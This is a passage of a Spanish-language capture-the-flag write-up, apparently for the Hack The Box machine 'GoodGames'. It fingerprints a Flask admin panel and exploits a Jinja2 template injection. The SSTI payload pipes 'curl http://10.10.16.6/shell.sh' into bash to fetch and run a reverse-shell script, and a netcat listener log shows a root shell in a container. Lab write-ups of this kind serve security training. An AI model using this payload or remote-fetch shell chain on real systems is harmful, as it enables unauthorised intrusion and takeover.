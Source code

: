 Esta parte de la aplicación también está hecha en python. Podemos usar la herramienta whatweb para comprobarlo.

```bash
❯ whatweb http://internal-administration.goodgames.htb/settings
http://internal-administration.goodgames.htb/settings [403 Forbidden] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/2.0.2 Python/3.6.7], IP[10.10.11.130], Meta-Author[Themesberg], Open-Graph-Protocol[website], Python[3.6.7], Script, Title[Flask Volt Dashboard -  Error 403  | AppSeed][Title element contains newline(s)!], Werkzeug[2.0.2]
```


### Exploiting SSTI

Vamos a intentar explotar un SSTI en ese punto.

![](/assets/images/GoodGames/img8.png)

Se esta ejecutando el payload correctamente, vamos a intentar establecernos una revshell. Si usamos el siguiente payload podemos explotarlo.

```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('curl http://10.10.16.6/shell.sh|bash').read() }}
```

Si miramos nuestro listener podemos ver una shell, le haremos el tratamiento de la TTY y empezaremos a enumerar para la escalada de privilegios.

```bash
❯ nc -lvvp 443
listening on [any] 443 ...
B2connect to [10.10.16.6] from goodgames.htb [10.10.11.130] 47556
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@3a453ab39d3d:/backend# id
B2id
bash: B2id: command not found
root@3a453ab39d3d:/backend# id     
id
uid=0(root) gid=0(root) groups=0(root)
```
